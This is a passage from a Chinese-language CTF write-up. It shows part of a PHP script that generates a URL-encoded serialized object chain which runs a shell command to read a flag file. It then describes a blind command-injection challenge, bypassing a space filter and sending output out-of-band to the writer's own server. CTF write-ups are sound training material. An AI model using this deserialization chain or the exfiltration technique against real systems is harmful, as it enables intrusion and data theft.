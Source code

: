 	    }
	}

	class cat
	{
	    public function __invoke($args)
	    {
	        echo $args."不是函数";
	    }
	}

	class test2
	{
	    private $a;
	    public function __construct()
	    {
	        $this->a = new flag();
	    }
	}

	class flag
	{
    	public function getFlag()
    	{
        	system('cat ../flag.txt');
    	}
	}

	$ggo = new gg();
	$result = serialize($ggo);
	echo urlencode($result);
	?>

	```

	这里需要将序列化的对象进行url编码以后才可以成功

	![](http://120.77.152.169/pic_upload/upload/201805171640571905.jpeg)

*	**CRUL:**

	看到题目，很明显的一道命令执行，但是有个棘手的地方就是没有回显，所以我们需要通过外通道将获得的数据打回到自己的服务器

	经过一些测试以后，发现空格被过滤了，但是管道符没有被过滤，在网上找了一些资料，和01师傅发的命令注入的资料，可以构造，先构造了一个payload测试思路：

	![](http://120.77.152.169/pic_upload/upload/201805172216577101.jpeg)

	在自己的服务器上可以监听到打回来的数据

	![](http://120.77.152.169/pic_upload/upload/201805172218318009.jpeg)

	可以看出来whoami的执行结果是www-data

	那么现在我们可以构造payload：

	![](http://120.77.152.169/pic_upload/upload/201805172221005305.jpeg)
	